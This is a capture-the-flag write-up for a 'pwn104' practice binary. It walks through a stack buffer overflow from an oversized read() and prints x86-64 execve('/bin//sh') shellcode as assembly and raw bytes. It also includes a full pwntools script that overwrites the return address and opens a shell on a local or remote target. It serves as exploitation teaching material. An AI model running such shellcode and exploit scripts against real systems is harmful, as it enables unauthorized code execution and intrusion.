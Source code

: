 # Challenge 4

![](attachments/db1758d9fb570f0cdb4592108ca57b59.png)

### Vulnerability:
the `read()` call near the end is vulnerable

**Manual:**

![](attachments/4da2419acfc78d004be682f5b527145e.png)

The code is basically calling
`read(stdin, *buf, 200);` - `buf` here being 80 characters.
So we attempt to read up to 200 bytes from *stdin* into the buffer, starting at `buf`
Completely overwriting our buffer and anything past it!

Testing buffer overflow size we end up at 80 (as expected from the code above giving us `0x50` (80))

![](attachments/b5434cd15f15a9dddea075260a58856f.png)

![](attachments/b6b44c7f8def649b29f2d9a59d01ed59.png)

## The Exploit
So we have our opening message, hinting they want us to run our shellcode ("executable powers"), the address you're seeing is where our input starts, the start of our buffer in memory.

![](attachments/d8af53b5d8ae6ac260f5b7d837e7e8c8.png)

As seen here in the code, `[buf]` being the buffer for our input of size `0x50` (80)

![](attachments/a1a007161ea3321b0dfa0b30321ae2f9.png)

So we'll write our shellcode to our buffer, then overflow the buffer to overwrite our **RBP** and more importantly, our **RIP**'s return address on the stack, and replace that with the address pointing to our shellcode.
So our full exploit would be: `[Shellcode + fill leftover bufferspace + new RBP + new RIP]`

For our shellcode I was looking at some publicly available ones and the built in pwn-tools shell code without luck until I came across this one: https://www.exploit-db.com/exploits/46907 -

```assembly
global _start
section .text

_start:
  xor rsi, rsi                ; Set RSI to 0
  push rsi                    ; RSI to stack
  mov rdi, 0x68732f2f6e69622f ; set RDI = "/bin//sh"
  push rdi                    ; Push Value to stack
  push rsp                    ; Push Pointer to value, to stack
  pop rdi                     ; Load pointer to "/bin//sh"
  push 59                     ; Push 59
  pop rax                     ; 59 to RAX ; OPcode for syscall.execve()
  cdq                         ; Copies the sign bit of RAX (0)
  syscall                     ; Sys call ; execve(*rdi, 0, 0)
```

Bytes: 
`\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`

**CDQ**
The CDQ instruction copies the sign (bit 31) of the value in the EAX (RAX) register into every bit position in the EDX (RDX) register. (more info; https://www.felixcloutier.com/x86/cwd:cdq:cqo )
So because our RAX is currently '59' we get this
```
RAX: 0x000000000000003B
       ^
       |--------------| - Every bit is set to 0
RDX: 0x0000000000000000
```

**Syscall 59**
https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

![](attachments/161a8f3ae54b55ef9fbde3e0e4a2997a.png)
### Exploit script

```python
from pwn import *
import sys

# Shellcode execve("/bin//sh") ; https://www.exploit-db.com/exploits/46907
shell = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
shell_size = len(shell)
log.info(f"Shellcode size: {shell_size}")

# Random filler address for RBP
rbp = p64(0xDEADBEEF)

if sys.argv[1] == "local":
    proc = process("./pwn104-1644300377109.pwn104")
else:
    proc = remote(sys.argv[1], int(sys.argv[2]))

# Get Return address
addr = re.search(r'[0][x].*', proc.recvline_regexS('[0][x].*')).group()
log.info(f"Target address: {addr}")
addr = p64(int(addr, 16))

# Finishing Payload, padding shell with NULL-bytes with our 0x50 buffer size
payload = shell.ljust(0x50, b'\x00') + rbp + addr
log.info(f"Payload: {payload}")

# Send payload and go interactive for shell
proc.sendline(payload)
proc.interactive()
```

### Running it remotely:
![](attachments/522e3a7c58a9d4ba85859ff90b6f59c5.png)
